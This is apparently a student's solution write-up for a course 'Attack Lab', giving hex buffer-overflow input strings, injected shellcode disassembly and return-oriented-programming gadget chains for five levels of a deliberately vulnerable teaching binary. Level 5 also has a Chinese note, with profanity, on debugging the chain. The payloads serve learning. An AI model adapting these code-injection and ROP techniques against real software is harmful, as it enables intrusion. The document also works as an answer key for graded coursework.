 # Attack lab

## Code Injection

### level 1

easy, overflow to return to touch1

```txt
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 c0 17 40
```

### level 2

overflow to make code return to someplace in stack, and execute some code for passing arguments and then call touch2.

```as
0000000000000000 <_start>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

```txt
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 78 dc 61 55 00 00 00 00
```

### level 3

like what you do in level 2, notice which place should the string put in the stack(the start of your input is errupted by the code and the other place will be used when ```push```). So you should put it at the end of buffer and return address of test.

```as
0000000000000000 <_start>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

```txt
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```

## Return-Oriented Programming

### level 4

using ```popq``` to pass args.

```txt
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 cc 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 a2 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00
```

### level 5

我一开始跑了几遍以为rsi的值是固定的48，我还在想为什么实验文档说有8个gadget，我他妈3个就完了，结果跑的时候io库代码报错。麻了，之前出过一样的问题，怀疑是堆栈没有16字节对齐，或者junk太长(缓冲区后面还塞了48个字符，我以为rsi就是offset固定为48)。排查了半天发现rsi有的时候变成49了，脑子也没转过这个弯来。

核心是根据lea指令两个参数去凑，rdi只能用mov，rsi只能movl顺便便于计算还要转几个弯。只能说结论下太早，后面完全被干扰了。

answer:

```txt
30 31 32 33 34 35 36 37 30 31 32 33 34 35 36 37 30 31 32 33 34 35 36 37 30 31 32 33 34 35 36 37 30 31 32 33 34 35 36 37 06 1a 40 00 00 00 00 00 a2 19 40 00 00 00 00 00 ab 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 dd 19 40 00 00 00 00 00 34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00 d6 19 40 00 00 00 00 00 a2 19 40 00 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
```